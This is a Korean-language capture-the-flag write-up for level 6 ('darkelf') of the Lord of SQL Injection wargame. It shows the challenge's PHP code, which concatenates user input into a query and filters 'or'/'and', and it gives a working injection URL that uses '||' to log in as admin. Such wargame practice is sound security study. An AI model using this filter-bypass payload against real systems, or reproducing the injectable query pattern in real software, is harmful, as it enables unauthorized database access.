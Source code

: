 # Lord of SQL Injection No.6 - darkelf
## 문제 출제 의도 
or과 and를 사용하지 않고 SQL Injection을 할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
~~~
 if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
~~~
+ 전달받은 pw 값에 or나 and가 포함되어 있으면 문제 풀이에 실패하는 것을 알 수 있다.
## Solution
1. 기호 사용
+ or 대신 ||, and 대신 &&를 사용한다.
~~~
http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=' || id='admin'-- -
~~~
이는 id가 'admin'인 데이터를 불러오기 때문에 문제가 풀린다.
